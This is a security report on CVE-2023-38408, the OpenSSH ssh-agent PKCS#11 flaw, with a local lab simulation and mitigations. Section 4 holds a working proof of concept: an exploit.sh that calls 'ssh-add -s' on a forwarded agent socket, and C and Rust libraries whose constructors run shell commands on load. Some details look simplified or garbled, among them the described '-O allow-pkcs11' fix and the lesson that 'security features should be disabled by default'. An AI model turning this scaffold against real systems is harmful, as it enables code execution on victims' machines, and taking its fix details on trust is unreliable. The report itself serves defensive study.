







# CVE-2023-38408: Understanding and Simulating a Real-World SSH-Agent Vulnerability

## Table of Contents

1. [Introduction](#1-introduction)
2. [Background Concepts](#2-background-concepts)
3. [The CVE-2023-38408 Vulnerability](#3-the-cve-2023-38408-vulnerability)
4. [Practical Simulation and Testing](#4-practical-simulation-and-testing)
5. [Technical Analysis](#5-technical-analysis)
6. [Fix and Mitigation](#6-fix-and-mitigation)
7. [Conclusion](#7-conclusion)

---

## 1. Introduction

### Purpose of the Report

The purpose of this report is to analyze CVE-2023-38408, a critical real-world vulnerability discovered in OpenSSH, through both theoretical understanding and practical simulation. The report explains the technical foundations of the vulnerability, demonstrates how it can be exploited in controlled environments, and examines implemented mitigation measures.

### Importance of Analyzing Real-World Vulnerabilities

Understanding real-world security vulnerabilities through hands-on simulation not only helps protect systems but also strengthens developers' and system administrators' awareness of potential attack vectors. Analyzing such vulnerabilities bridges the gap between theory and practical security implementation.

### What is CVE-2023-38408 and Why It Matters

CVE-2023-38408 is a vulnerability that affects `ssh-agent` in OpenSSH when PKCS#11 support is enabled. It allows remote code execution on a client machine if the user connects to a compromised server with agent forwarding enabled (`ssh -A`). This vulnerability has severe implications for any system relying on OpenSSH for secure authentication.

| **CVE Details**     | **Information**            |
| ------------------- | -------------------------- |
| CVE ID              | CVE-2023-38408             |
| CVSS Score          | 9.8 (Critical)             |
| Affected Versions   | OpenSSH < 9.3p2            |
| Attack Vector       | Network                    |
| Privileges Required | None                       |
| User Interaction    | Required                   |
| Impact              | Complete system compromise |

---

## 2. Background Concepts

### 2.1 SSH Overview

SSH (Secure Shell) is a cryptographic network protocol used for secure communication over unsecured networks. It provides encrypted channels for remote login, command execution, file transfer, and more.



### 2.2 What is ssh-agent

`ssh-agent` is a background process that stores your decrypted private SSH keys in memory, allowing you to use them without re-entering passphrases every time you connect to a remote system.

#### Agent Forwarding (ssh -A)

Agent forwarding allows a remote system to access your local `ssh-agent` through a Unix domain socket. This is useful for chaining SSH connections but introduces significant security risks if the remote machine is compromised.



Technically, when you use `ssh -A`, the SSH client sets up a Unix domain socket on the remote server that acts as a **proxy** to your local `ssh-agent`. The environment variable `SSH_AUTH_SOCK` is set to point to this proxy socket. Any calls made to `SSH_AUTH_SOCK` on the remote server are forwarded back through the SSH connection and processed by your local `ssh-agent`.

### 2.3 What is PKCS#11

PKCS#11 is a standard API for interacting with cryptographic tokens, such as smartcards, YubiKeys, or virtual hardware security modules (HSMs).

| **PKCS#11 Function** | **Purpose**                | **Risk Level** |
| -------------------- | -------------------------- | -------------- |
| `C_Initialize()`     | Initialize the library     | Low            |
| `C_GetSlotList()`    | List available slots       | Low            |
| `C_FindObjects()`    | Find cryptographic objects | Medium         |
| `C_Sign()`           | Sign data                  | High           |
| `dlopen()`           | Load shared library        | **Critical**   |

#### How ssh-agent Supports PKCS#11

OpenSSH's `ssh-agent` supports loading PKCS#11 providers (shared `.so` libraries) using the command `ssh-add -s /path/to/provider.so`. These libraries allow the agent to interact with secure hardware or software modules to use private keys without exposing them directly.

Under the hood, when `ssh-add -s` is called, it performs the following:

- The `.so` file is dynamically loaded into memory using `dlopen()`.
- The agent resolves and calls functions like `C_Initialize()`, `C_GetSlotList()`, `C_FindObjects()`, and `C_Sign()` via the PKCS#11 API.
- The provider returns metadata and handles requests to sign authentication challenges, keeping private key material securely within the hardware token.

---

## 3. The CVE-2023-38408 Vulnerability

### 3.1 CVE Summary

| **Attribute**     | **Details**                                        |
| ----------------- | -------------------------------------------------- |
| ID                | CVE-2023-38408                                     |
| Severity          | High (CVSS 9.8)                                    |
| Timeline          | Disclosed July 2023, fixed in OpenSSH 9.3p2        |
| Affected Software | OpenSSH versions before 9.3p2 with PKCS#11 support |
| Attack Complexity | Low                                                |
| Attack Vector     | Network via SSH agent forwarding                   |

### 3.2 Vulnerability Mechanism

The vulnerability stems from `ssh-agent` loading **any** shared object file (.so) provided via `ssh-add -s`, without validating whether it was a legitimate PKCS#11 provider.



### 3.3 Attack Flow Analysis



At the lowest level, the sequence of events includes:

1. A remote system sends a request to the forwarded agent asking it to `ssh-add -s /path/to/lib.so`
2. The local `ssh-agent` receives this request and blindly calls `dlopen("/path/to/lib.so", RTLD_NOW)`
3. If the `.so` file has a constructor function (`__attribute__((constructor))`), it executes immediately upon loading
4. This constructor can contain arbitrary malicious code that runs on the client machine

### 3.4 Real Attack Scenario

| **Step** | **Action**                                       | **Impact**                         |
| -------- | ------------------------------------------------ | ---------------------------------- |
| 1        | User runs `ssh -A user@attacker-host`            | Agent forwarding enabled           |
| 2        | Attacker prepares malicious.so                   | Payload ready                      |
| 3        | Attacker executes `ssh-add -s /tmp/malicious.so` | Request sent to victim's agent     |
| 4        | Agent loads malicious library                    | Constructor executes               |
| 5        | Malicious code runs                              | **Remote Code Execution achieved** |

---

## 4. Practical Simulation and Testing

### 4.1 Simulation Environment Setup

To demonstrate this vulnerability in a controlled environment, a comprehensive simulation was conducted using multiple user accounts and terminals.

#### Environment Configuration

| **Component** | **Configuration**     | **Purpose**                      |
| ------------- | --------------------- | -------------------------------- |
| Terminal 1    | `victim` user         | SSH Client (target)              |
| Terminal 2    | `attacker` user       | SSH Server (attacker)            |
| SSH Keys      | RSA 2048-bit          | Authentication without passwords |
| Test Files    | Various shell scripts | Automation and payload delivery  |

#### User Account Creation

```bash
# As main user
sudo adduser victim
sudo adduser attacker
```

#### SSH Key Setup for Agent Forwarding

```bash
# As victim user
ssh-keygen -t rsa -f ~/.ssh/id_rsa -N ""
ssh-copy-id attacker@localhost
```

### 4.2 Simulation Scripts and Implementation

#### Victim's Connection Script (`new-connection.sh`)

```bash
#!/bin/bash

# Kill any existing agent
eval $(ssh-agent -k) > /dev/null 2>&1

# Start a new agent and add key
eval $(ssh-agent -s)
ssh-add ~/.ssh/id_rsa

# Connect to attacker with agent forwarding
ssh -A attacker@localhost
```

#### Attacker's Payload Builder (`build-evil.sh`)

```bash
#!/bin/bash
set -e

C_SRC="evil.c"
RUST_DIR="rust_evil"
OUTPUT_PATH="/usr/lib/x86_64-linux-gnu/pkcs11/evil.so"

function build_c() {
  sudo gcc -fPIC -shared -o "$OUTPUT_PATH" "$C_SRC"
  echo "C payload built at $OUTPUT_PATH"
}

function build_rust() {
  cd "$RUST_DIR"
  cargo build --release
  cd -
  SO_FILE=$(find "$RUST_DIR/target/release" -name "lib*.so" | head -n 1)
  sudo cp "$SO_FILE" "$OUTPUT_PATH"
  rm -rf "$RUST_DIR/target"
  echo "Rust payload built at $OUTPUT_PATH"
}

case "$1" in
  --c) build_c ;;
  --rust) build_rust ;;
  *) echo "Usage: $0 --c | --rust" && exit 1 ;;
esac
```

#### Exploitation Script (`exploit.sh`)

```bash
#!/bin/bash

# Use forwarded agent
export SSH_AUTH_SOCK=$(echo /tmp/ssh-*/agent.*)

# Trigger the malicious shared object via ssh-agent
ssh-add -s /usr/lib/x86_64-linux-gnu/pkcs11/evil.so
```

### 4.3 Simulation Results and Analysis

#### Expected Behavior in Vulnerable Systems

| **Action**                | **Vulnerable System Response**      | **Patched System Response** |
| ------------------------- | ----------------------------------- | --------------------------- |
| `ssh-add -s malicious.so` | Library loads, constructor executes | `agent refused operation`   |
| Payload execution         | Creates `/tmp/exploit.log`          | No execution                |
| System impact             | Remote code execution               | No impact                   |

#### Actual Simulation Output

When running the simulation on a patched system (OpenSSH 9.3p2+):

```
Enter passphrase for PKCS#11:
Could not add card "/.../evil.so": agent refused operation
```

**Key Observation**: Even though the agent refuses the operation in patched versions, this simulation demonstrates the attack vector and helps understand the vulnerability's impact in older versions.

### 4.4 Payload Construction Analysis

#### C-based Malicious Library

```c
// evil.c - Example malicious PKCS#11 library
#include <stdlib.h>
#include <stdio.h>

__attribute__((constructor))
void malicious_constructor() {
    // This executes immediately when dlopen() is called
    system("echo 'Exploit triggered' > /tmp/exploit.log");
    system("touch ~/exploit.txt");
    // In a real attack, this could download and execute additional payloads
}

// Minimal PKCS#11 function to make it appear legitimate
void C_Initialize() {
    return;
}
```

#### Rust-based Alternative

Using the `ctor` crate for constructor functions:

```rust
// Cargo.toml
[dependencies]
ctor = "0.1"

// lib.rs
use ctor::ctor;
use std::process::Command;

#[ctor]
fn malicious_constructor() {
    Command::new("sh")
        .arg("-c")
        .arg("echo 'Rust exploit triggered' > /tmp/exploit.log")
        .output()
        .expect("Failed to execute command");
}
```

---

## 5. Technical Analysis

### 5.1 Root Cause Analysis

The vulnerability exists due to several design decisions in OpenSSH's ssh-agent implementation:

| **Design Issue**        | **Description**                          | **Impact**                      |
| ----------------------- | ---------------------------------------- | ------------------------------- |
| Unrestricted dlopen()   | No validation of .so files               | Allows arbitrary code execution |
| Constructor execution   | Code runs before PKCS#11 validation      | Immediate compromise            |
| Agent forwarding trust  | No authentication for forwarded requests | Remote exploitation possible    |
| Default PKCS#11 support | Feature enabled by default               | Broader attack surface          |

### 5.2 Memory and Process Analysis



### 5.3 Attack Surface Mapping

| **Attack Vector**  | **Requirements**             | **Impact Level** | **Detection Difficulty** |
| ------------------ | ---------------------------- | ---------------- | ------------------------ |
| Agent Forwarding   | `ssh -A` enabled             | Critical         | Low                      |
| Malicious .so file | File system access           | Critical         | Medium                   |
| Social Engineering | User interaction             | High             | High                     |
| Supply Chain       | Compromised PKCS#11 provider | Critical         | Very High                |

---

## 6. Fix and Mitigation

### 6.1 How It Was Fixed in OpenSSH 9.3p2

OpenSSH 9.3p2 addressed this vulnerability by introducing secure default behavior:

| **Security Measure** | **Implementation**                  | **Effect**                        |
| -------------------- | ----------------------------------- | --------------------------------- |
| Default Disable      | PKCS#11 support disabled by default | Reduces attack surface            |
| Explicit Enable      | Requires `-O allow-pkcs11` flag     | User consent required             |
| Validation           | Enhanced library validation         | Prevents arbitrary code execution |

#### Configuration Changes

```bash
# Old behavior (vulnerable)
ssh-agent  # PKCS#11 enabled by default

# New behavior (secure)
ssh-agent -O allow-pkcs11  # Explicit opt-in required
```

### 6.2 Implementation Analysis



### 6.3 Comprehensive Mitigation Strategies

#### Immediate Actions

| **Priority** | **Action**               | **Implementation**                                        |
| ------------ | ------------------------ | --------------------------------------------------------- |
| High         | Upgrade OpenSSH          | `apt update && apt upgrade openssh-client openssh-server` |
| High         | Disable agent forwarding | `ssh -o ForwardAgent=no`                                  |
| Medium       | Audit SSH configurations | Review `/etc/ssh/ssh_config`                              |
| Medium       | Monitor agent usage      | Log ssh-agent activities                                  |

#### Long-term Security Measures

1. **SSH Configuration Hardening**

   ```
   # /etc/ssh/ssh_config
   ForwardAgent no
   HashKnownHosts yes
   VerifyHostKeyDNS yes
   ```

2. **Network Segmentation**

   ```mermaid
   graph LR
   A[Trusted Network] --> B[Jump Host]
   B --> C[DMZ]
   C --> D[Production Network]

   Note1[No agent forwarding beyond Jump Host]
   Note2[Separate credentials for each zone]
   ```

3. **Monitoring and Detection**

   ```bash
   # Monitor ssh-agent processes
   ps aux | grep ssh-agent

   # Check for unusual .so loads
   lsof -p $(pgrep ssh-agent) | grep '\.so$'

   # Monitor SSH_AUTH_SOCK usage
   auditctl -w /tmp -p w -k ssh_agent_monitor
   ```

### 6.4 Best Practices Implementation

#### Organizational Security Policies

| **Policy Area**    | **Requirement**                 | **Verification Method**          |
| ------------------ | ------------------------------- | -------------------------------- |
| SSH Agent Usage    | Documented approval required    | Policy compliance audit          |
| Agent Forwarding   | Prohibited to untrusted hosts   | Network monitoring               |
| PKCS#11 Libraries  | Whitelist of approved providers | File integrity monitoring        |
| Version Management | OpenSSH 9.3p2+ mandatory        | Automated vulnerability scanning |

---

## 7. Conclusion

### 7.1 Key Findings

CVE-2023-38408 demonstrates a critical security flaw that exploited the trust relationship between SSH clients and agents. Through practical simulation, several key insights emerge:

1. **Trust Boundary Violations**: The vulnerability exploited implicit trust in forwarded agent connections
2. **Constructor Abuse**: Malicious code execution through shared library constructors bypassed all security controls
3. **Default Insecurity**: PKCS#11 support being enabled by default created an unnecessary attack surface
4. **Agent Forwarding Risks**: The convenience of agent forwarding introduced severe security implications

### 7.2 Impact Assessment

| **Impact Category** | **Severity** | **Description**                                      |
| ------------------- | ------------ | ---------------------------------------------------- |
| Confidentiality     | Critical     | Complete access to user's cryptographic materials    |
| Integrity           | Critical     | Ability to modify system files and configurations    |
| Availability        | High         | Potential for system disruption or denial of service |
| Authentication      | Critical     | Compromise of SSH authentication mechanisms          |

### 7.3 Lessons Learned

This vulnerability analysis, enhanced by practical simulation, provides several critical lessons:

1. **Secure Defaults**: Security features should be disabled by default and require explicit activation
2. **Input Validation**: All external inputs, including library files, must be rigorously validated
3. **Principle of Least Privilege**: Agent forwarding should be restricted to trusted environments only
4. **Defense in Depth**: Multiple security layers prevent single points of failure

### 7.4 Future Considerations



### 7.5 Final Recommendations

Based on the comprehensive analysis and simulation results:

1. **Immediate**: Upgrade all OpenSSH installations to version 9.3p2 or later
2. **Short-term**: Implement strict agent forwarding policies and monitoring
3. **Long-term**: Adopt zero-trust network architecture and certificate-based authentication
4. **Ongoing**: Maintain continuous security education and vulnerability assessment programs

**Key Takeaway**: CVE-2023-38408 serves as a powerful reminder that convenience features like agent forwarding can become critical security vulnerabilities when not properly implemented. The combination of theoretical understanding and practical simulation provides the foundation for building robust defenses against similar attacks in the future.

Through this comprehensive analysis, security professionals can better understand the intricate relationships between SSH components and implement appropriate safeguards to protect their infrastructure from similar vulnerabilities.
